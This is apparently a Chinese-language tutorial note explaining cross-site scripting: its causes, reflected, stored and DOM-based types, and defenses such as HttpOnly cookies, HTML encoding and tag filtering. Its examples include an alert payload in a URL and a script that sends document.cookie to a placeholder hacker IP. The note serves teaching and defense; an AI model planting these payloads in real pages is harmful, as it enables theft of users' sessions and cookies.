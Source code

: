 ## XSS原理与防御
Cross Site Scripting(跨站脚本攻击)
### 1.XSS发生原因
* 1.将恶意的js代码插入到页面中
* 2.html实体的存在是导致XSS漏洞的主要原因之一
### 2.XSS类型
* 1.反射型xss攻击（非持久性跨站点脚本攻击）

    示例（接收者接收消息显示的时候将会弹出警告窗口）
    ```js
    http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>！
    ```
* 2.存贮型xss攻击
    示例:
    攻击者在表单中填入恶意的js代码，将数据提交到服务器，存储到数据库中，其他用户去除数据展示时，执行攻击性代码
* 3.DOM-XSS
    示例1(盗取cookie):
    ```js
    // 恶意代码
    <script type=text/javascript>window.location = "http://黑客IP:8360/getcookie?cookie="+document.cookie</script>
    ```
    示例2(改变dom):
    ```js
    // 恶意代码
    <script>
        var a = document.createElement('a');
        a.href = 'http://www.linuxtest.com/test2.php';
        a.innerText = '点我呀'
        document.body.appendChild('afterbegin', a);
    </script>
    ```
### 3.XSS防御
* 1.将重要的cookie标识为http only,这样Js中的document.cookie语句就不能获取到cookie了
* 2.对数据进行Html Encode处理（转义）
* 3.黑名单，白名单（过滤）
    * 将<script> onerror这种危险标签纳入黑名单，过滤掉
    * 设置标签白名单，不在白名单内的，一律过滤掉
* 4.请求头设置`X-XSS-Protection`
